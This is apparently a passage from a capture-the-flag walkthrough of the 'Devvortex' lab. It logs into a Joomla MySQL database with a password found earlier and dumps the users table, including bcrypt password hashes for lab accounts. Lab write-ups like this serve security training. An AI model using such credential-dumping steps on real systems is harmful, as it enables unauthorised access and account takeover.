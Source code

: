 We connect to the database and we extract the users information:

```
mysql -u lewis -pf4k3l0g4np455 joomla

mysql> show tables like '%user%';
+---------------------------+
| Tables_in_joomla (%user%) |
+---------------------------+
| sd4fg_action_logs_users   |
| sd4fg_user_keys           |
| sd4fg_user_mfa            |
| sd4fg_user_notes          |
| sd4fg_user_profiles       |
| sd4fg_user_usergroup_map  |
| sd4fg_usergroups          |
| sd4fg_users               |
+---------------------------+
8 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-02-13 13:20:06 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```
